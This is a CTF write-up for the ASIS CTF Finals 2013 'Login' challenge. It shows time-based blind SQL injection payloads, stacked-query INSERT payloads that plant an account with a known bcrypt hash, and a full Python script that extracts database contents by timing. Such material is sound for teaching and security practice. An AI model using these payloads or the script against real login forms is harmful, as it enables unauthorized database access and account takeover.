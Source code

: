 ```yaml
---
title: ASIS CTF Finals 2013 Login
author: DeAdCaT___
layout: post
permalink: /asis-ctf-finals-2013-login/
categories:
  - CTF
  - writeup
---
```

<http://blog.deadcat.me/writeup/2013/09/01/asis-ctf-finals-2013-login/>

Description

    Login
    
    Points  350     Level   1   Solves  5
    
    Description
    78.38.193.187
    
    Hint:
    $2y$10$HXDsGCYFW5ajuzYO5qcyfOygl5r27BQB5DkL5ZfgoTfPSRMhlUAnG
    

All you can see is a login form, it always has some SQL injection problem.

After a lot of testing, finally we find a time-based blind injection in the username.

Using

    1' AND BENCHMARK(5000000,MD5(0x123)) AND ''='
    

then we start to using sqlmap to deal with it, but it is too slow and show some mistakes.

One of my friend write a python script to solve it, then we find some useful infomation. There are three database:

    information_schema
    sqli_db
    test
    

Obviously, sqli_db is suspicious, let&#8217;s see what it has.

    users
    

It only has a table named users.

    user_id
    user_name
    user_email
    user_password_hash
    

At the beginning, we trying to fetch some data from it, but it is empty, some time later, we fetch a string from user&#95;password&#95;hash.

    $2y$10$gyI0vxnE3ZncmdLNGVmwTew/aPwBZPY4cEMCRENAjN4?0l8iu9O5R6iW
    

Just google &#8220;$2y$10&#8243;, we find it is the head of PHP blowfish hash, but it seems that there is no way to get the original value from it.

At that time, the admin give a hint on this problem:

    Hint:
    $2y$10$HXDsGCYFW5ajuzYO5qcyfOygl5r27BQB5DkL5ZfgoTfPSRMhlUAnG
    

At the same time, we find that the table users suddenly become empty. It inspire us to try INSERT.

    ';insert into users values (333,'hqd','1','1@1.com');select '
    

And it works!

Then it is so easy, just INSERT the correct hash value of a password u know it before, there is a php script can to do this.

    ';insert into users values (333,'hqd','$2y$10$YTNlM2RiNmFiODgzZGM2YuYqP7NHnuZ31TyucetPJkODqia/XH5KC','1@1.com');select '
    
    #this is the blowfish hash value of 'admin'
    

Then just login use username:hqd and password:admin, then here is the flag.

    ASIS_9689926853009CAAD5BF824863077DC9
    

And taste the flavor of the first blood.

f.py

    from httplib import HTTPConnection
    
    HTTPConnection._http_vsn_str = 'HTTP/1.0'
    
    def post_payload( payload ):
        conn = HTTPConnection( '78.38.193.187' )
        conn.putrequest( 'POST', '/', skip_accept_encoding=True, skip_host=True )
        conn.putheader( 'Content-Type', 'application/x-www-form-urlencoded' )
        conn.putheader( 'Content-Length', str(len(payload)) )
        conn.endheaders( message_body=payload )
        resp = conn.getresponse()
        resp.read()
    
    from urllib import urlencode
    from time import time
    
    def get_bool( expression ):
        start = time()
        post_payload( urlencode( dict(
            login = '',
            user_password = ' ',
            user_name = "'OR if(%s,benchmark(1500000,md5(0)),0) AND''='" % expression,
        ) ) )
        end = time()
        print 'Time:', end-start
        return end-start&gt;0.95
    
    def get_bit( expression ):
        return '1' if get_bool( expression ) else '0'
    
    from itertools import count
    
    def get_string( expression ):
        result = ''
        for i in count( start=1 ):
            char = ''
            for j in range(8)[::-1]:
                print 'Byte %d, Bit %d,' % (i,j),
                bit = get_bit( 'ascii(substr(%s,%d,1))&gt;&gt;%d&amp;1' % ( expression, i, j ) )
                print bit
                char += bit
            char = int( char, 2 )
            if char == 0: break
            result += chr(char)
        return result
    
    # def get_query( expression ):
    
    
    # print get_string( 'database()' )
    print get_string( '(SELECT IFNULL(CAST(table_name AS CHAR) ,0x20) FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=0x73716c695f6462 LIMIT 0,1)' )
    # print get_string( '(SELECT IFNULL(CAST(table_name AS CHAR) ,0x20) FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=\'information_shema\' LIMIT 0,1)' )
    # print get_string( '(SELECT IFNULL(CAST(COLUMN_NAME AS CHAR) ,0x20) FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_NAME=\'users\' LIMIT 5,1)' )
    # print get_string( '(SELECT CAST(COUNT(*) AS CHAR) FROM users)' )
    # print get_string( '@@datadir' )
    # print get_string( 'user()' )
    # print get_string( 'version()' )
    

a.php

Founded from [pastebin][1]

 [1]: http://pastebin.com/y9GKtx0b